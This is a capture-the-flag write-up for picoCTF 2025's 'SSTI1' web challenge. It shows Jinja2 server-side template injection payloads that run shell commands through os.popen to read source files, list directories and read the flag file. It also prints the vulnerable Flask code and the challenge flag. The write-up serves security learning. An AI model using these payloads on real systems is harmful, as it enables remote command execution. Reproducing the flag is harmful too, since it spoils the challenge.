

# SSTI1 — Web Exploitation, Easy (picoCTF 2025)

- **Competition:** picoCTF 2025
- **Category:** Web Exploitation
- **Difficulty:** Easy
- **Author:** Venax

## Statement

I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:54961/)!

## Thought Process



The page looked like this.

1. I honestly had no idea what SSTI was, so I had to look it up.
2. First I wanted to find what language the backend is written in. I tried a bunch of template syntaxes:

```
${7*7}
{{7*7}}
#{7*7}
<%= 7*7 %>
${{7*7}}
@(7*7)
```

3. `{{7*7}}` returned a result, which means it's Python.
4. So now I tried to dump the whole backend source code with this input:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat app.py').read() }}
```

I got the app source code:

```python
from flask import Flask, render_template_string, request, redirect
app = Flask(__name__)
@app.route('/', methods = ['GET', 'POST'])
def home():
  if request.method == 'POST':
    return redirect('/announce', code=307)
  else :
    return render_template_string("""
<!doctype html>
<title>SSTI1</title>
<h1> Home </h1>
<p> I built a cool website that lets you announce whatever you want!* </p>
<form action="/" method="POST">
What do you want to announce: <input name="content" id="announce">
<button type="submit"> Ok </button>
</form>
<p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
""" )

@app.route("/announce", methods = ["POST"])
def announcement():
  return render_template_string("""
<!doctype html>
<h1 style="font-size:100px;" align="center">""" + request.form.get("content", "") + """</h1>""", )
```

5. At this point I still had no knowledge of what to do, so next I ran `ls` inside the directory:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

Which listed these files: `__pycache__`, `app.py`, `flag`, `requirements.txt`.

6. So I read the `flag` file with:

```
{{ lipsum.__globals__.os.popen('cat flag').read() }}
```

And got the flag.

## Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```